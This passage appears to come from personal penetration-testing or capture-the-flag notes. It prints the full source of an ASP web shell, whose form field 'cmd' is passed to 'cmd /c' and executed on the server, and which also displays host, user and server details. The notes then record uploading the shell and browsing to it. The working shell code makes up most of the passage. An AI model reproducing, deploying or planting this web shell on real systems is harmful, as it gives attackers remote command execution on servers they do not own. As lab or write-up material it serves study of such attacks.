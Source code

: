 ```xml
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>

<%Response.write("<!-"&"-") %>
```

Uploaded the file:

![Pasted image 20210524172515.png](../../zzz_res/attachments/Pasted_image_20210524172515.png)

Browsed the web shell:

![Pasted image 20210524172539.png](../../zzz_res/attachments/Pasted_image_20210524172539.png)

